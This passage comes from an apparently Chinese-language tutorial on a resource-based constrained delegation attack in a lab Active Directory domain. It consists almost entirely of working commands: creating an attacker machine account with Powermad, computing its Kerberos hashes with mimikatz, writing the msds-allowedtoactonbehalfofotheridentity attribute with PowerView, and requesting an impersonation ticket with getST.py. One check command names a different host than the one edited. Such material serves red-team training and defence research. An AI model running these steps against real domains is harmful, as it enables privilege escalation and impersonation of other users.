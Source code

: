 ```powershell
#SecurityIdentifier    : S-1-5-21-2255574704-2553525763-2083768959-1144
#IsCallback            : False
#ObjectDN              : CN=WIN2012,CN=Computers,DC=xie,DC=com
#AceQualifier          : AccessAllowed
#IsInherited           : False
#ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
#OpaqueLength          : 0
```

使用[Powermad](https://github.com/Kevin-Robertson/Powermad)创建一个机器账户，密码随便设置

```bash
Import-Module .\powermad.ps1
New-MachineAccount -MachineAccount AttackerService -Password $(ConvertTo-SecureString 'ThisRandomPass' -AsPlainText -Force)

#[+] Machine account AttackerService added
```

因为机器账户的密码是我们自己指定的，所以可以通过猕猴桃计算出hash

```bash
mimikatz(commandline) # kerberos::hash /user:AttackerService /password:ThisRandomPass /domain:xie.com
        * rc4_hmac_nt       7b374f90c36b60cc6a986ef52a428b2a
        * aes128_hmac       96ca700279068805f8fedbfd8cf372ce
        * aes256_hmac       089af22907f63ae31ced6ec01d73a58f3cd436706aa59886cff7889c1921d5a1
        * des_cbc_md5       5b45fec4467a9bcd
```

通过User1修改WIN2012的**msds-allowedtoactonbehalfofotheridentity**属性

```
Import-Module PowerView.ps1
$IdentitySID = Get-DomainComputer | Where-Object { $_.name -eq "AttackerService" } | Select-Object -ExpandProperty objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($IdentitySID))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer "WIN2012.xie.com" | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
#检查是否修改成功
Get-DomainComputer WIN2012R203 -Properties msds-allowedtoactonbehalfofotheridentity
```

现在通过AttackerService用户即计算出的hash，通过getST模块来获取ST

```
python getST.py -impersonate User2 -spn cifs/WIN2012.xie.com -hashes aad3b435b51404eeaad3b435b51404ee:7b374f90c36b60cc6a986ef52a428b2a -aesKey 089af22907f63ae31ced6ec01d73a58f3cd436706aa59886cff7889c1921d5a1  xie/AttackerService -dc-ip 10.0.0.133 -force-forwardable
```

![ST2](./ST.jpg)